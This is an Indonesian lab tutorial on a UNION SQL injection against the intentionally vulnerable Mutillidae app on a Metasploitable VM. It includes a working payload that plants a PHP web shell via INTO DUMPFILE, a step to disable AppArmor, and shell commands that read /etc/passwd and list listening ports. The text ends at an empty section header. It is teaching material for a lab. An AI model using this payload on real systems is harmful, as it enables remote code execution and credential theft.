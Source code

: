## Lesson 10 - SQL Injection Union Exploit \#3

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 

### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Buka halaman php yang sudah kita buat `http://10.151.36.64/mutillidae/execute_command.php`

* **Step 2** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan

* **Step 3** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

### \# Menggunakan Backdoor untuk pengamatan Database












